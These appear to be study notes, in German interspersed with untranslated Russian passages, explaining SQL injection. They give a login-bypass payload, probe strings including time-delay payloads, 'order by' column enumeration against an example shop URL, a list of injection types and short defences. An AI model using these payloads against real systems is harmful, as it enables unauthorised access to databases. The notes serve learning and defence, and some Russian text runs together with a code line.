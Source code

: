 #### Bsp 1:
* Query im Programm: `SELECT USERNAME,PASSWORD from USERS where USERNAME='<username>' AND PASSWORD='<password>';`
* => Eingeben in Username- und Password-Felder: `' OR '1'='1`
* => prodziert folgende Query: `SELECT USERNAME,PASSWORD from USERS where USERNAME='' OR '1'='1' AND PASSWORD='' OR '1'='1';`
#### DB auf Schwächen testen
* man kann folgende Eingaben versuchen:
    * `'` 
    * `'' a' or 1=1--` 
    * `"a"" or 1=1--"` 
    + `or a = a, a' waitfor delay '0:0:10'--`
    + `1 waitfor delay '0:0:10'--`
    + `%26`
    + `' or username like '%`
    + oder ähnliche Eingaben
    * <= wenn man merkt, dass App sich anders verhält => Untersützt SQL-Injections
* Zellen bestimmen mit `order by`
    + `www.onlineshopping.com/products.php?pid=8 order by 1 -- //`
    + `www.onlineshopping.com/products.php?pid=8 order by 2 -- //// Если параметр - строка, то надо добавить после него значок «'».www.onlineshopping.com/products.php?usr=b' order by 3 -- //`
    * `www.onlineshopping.com/products.php?usr=a' order by 4 -- //`
    + <= Комментарии в SQL начинаются вот с такой комбинации символов --. Чтобы сохранить пробел после --, просто добавляем любой символ: так пробел не будет игнорироваться в HTTP-запросе. Для комментариев могут использоваться также # или /* */ в зависимости от поставщика базы данных SQL
    * diese Anfrage solange machen, bis kein Fehler kommt => z.B Fehler bei *5* => richtige Anzahl ist *4*
* Typen der SQL-Injections:
    1. На основе ошибки: liefert Error-Message
    2. С использованием UNION: UNIONs werden benutzt um zwei Select-Anfragen zu einer Tabelle zu machen
    3.«Слепая» инъекция: wenn SQL-Injections unterstützt, aber kein HTTP-Response geliefert wird => Anfragen mit true/false veruschen und schauen, wie es sich verhält
    4. На основе данных в ответе сервера: ähnlich wie 3
    5. С использованием времени ответа сервера: 
    6. С использованием особенностей сервера: z.B DB-Inhalte mit HTTP, DNS oder ftp versenden
* Schutz vor SQL-Injections:
    1. SQL-Queries anhand der Parameter erstellen
    2. bevor SQL-Query die Eingabe prüfen
    3. sicheren Driver benutzen
